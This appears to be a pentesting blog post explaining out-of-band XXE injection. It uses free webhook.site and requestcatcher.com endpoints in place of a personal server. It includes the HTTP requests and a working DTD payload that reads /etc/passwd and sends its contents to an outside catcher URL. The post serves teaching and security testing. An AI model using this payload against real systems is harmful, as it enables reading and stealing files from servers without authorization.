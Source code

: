 ```yaml
---
layout:     post
title:      "XML External Entity (XXE) Injection Without Personal Servers"
date:       2019-06-22
author:     "Tech"
header-img: "img/post-XXE-injection-without-personal-servers.jpeg"
tags:
    - Pentesting
    - XXE
---
```


## XML External Entity (XXE) Injection Without Personal Servers

--------

Most post I read online regarding XXEs introduce the idea of spinning up a quick webserver to deliver and recieve content. While testing out some XXEs vulnerabilities, I didn't have the luxury of port forwarding my network, or spinning up a digital ocean droplet. I found a clever way to still conduct my testing under these constraints that I'll be talking about in this post. 

---------

### What is XXE?

An XML External Entity (XXE) injection is a serious flaw that allows an attacker to read local files on the server, access internal networks, scan internal ports, or execute commands on a remote server. It targets applications that parse XMLs.

This attack occurs when an XML input containing references to an external entity is processed by a weakly configured XML parser. The attacker takes advantage of it by embedding malicious inline DOCTYPE definition in the XML data. When the web server processes the malicious XML input, the entities are expanded, which results in potentially gaining access to a web server's file system, remote file system access, or establishing  connections to arbitrary hosts over HTTP/HTTPS.



---------

### Post Request

I'll assume you already know that the framework your working is can accept XML entities.

We'll typically see a regular post request look like:

```header
POST /login-form HTTP/1.1
Host: vulnerable.host
User-Agent: anthonys.io
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

username=test&password=test
```

Turning the above POST request into an XML request by removing some clutter, and changing the Content-type header.

```header
POST /login-form HTTP/1.1
Host: vulnerable.host
User-Agent: anthonys.io
Connection: close
Content-Type: text/xml
Content-Length: 30

<?xml version="1.0"?>
<test>tested</test>
```

---------

### Serving the DTD

A "Valid" XML document is a "Well Formed" XML document, which also conforms to the rules of a DTD:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo SYSTEM "WEBSITE/test.dtd">
<test>&e1;</test>
```

The DOCTYPE declaration, in the example above, is a reference to an external DTD file.

In this case, we'll be supplying an external DTD. This is what spark the making of this post. Since I didn't want to setup port forward on my home network, or had any usable droplets from digital ocean on hand. The best way was to chain it with various online catchers.

---------
### Request Catcher

Just as the title says, the last request made will be set to [requestcatcher.com](requestcatcher.com). Set up a URL, in this case I set: 

> https://tech.requestcatcher.com

We'll inject this URL in the callback in the webhooking session. All in all, here is where we will see the contents of the command we used, in this case it's the contents of /etc/passwd on the webserver.

---------
### Webhooking

Example url: 
>webhook.site/aaf35306-2e6a
Be sure to use this URL in the 'Serving the DTD' section, replace WEBSITE/test.dtd with this URL.

I went with [https://webhook.site](https://webhook.site) for catching the test.dtd request. One great option is that your able to 'Edit' the URL information on this hook.

You'll want to insert the below into the Response body of the webhook.site site. Add in the Request Catcher URL from above to catch the response of the command.

```xml
<!ENTITY % p1 SYSTEM "file:///etc/passwd">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'https://tech.requestcatcher.com?/test?%p1;'>">
%p2;
```
This DTD will force the XML parser to read the content of /etc/passwd and assigned it to the variable p1. Then it will create another variable p2 that contains a link to your malicious server and the value of p1. Finally it will print the value of p2 using the %p2.

---------
### Game Play

A quick break down:

We sent a post request calling out an external DTD (webhook.site), on the webhook site. On our webhook.site, we setup the response body to read the /etc/passwd file, and send those results to the request catcher website. The request catcher will read all request and print out what is shown. 

All in all:

![](img/in-post/post-js-version/xxe-passwd.png) 

---------
### Notes

You don't need to run with HTTPS for everything. I only got the above results after switching all URLs to http.

External Link with valuable Information:

>[https://pentesterlab.com/exercises/play_xxe](https://pentesterlab.com/exercises/play_xxe) 

---------
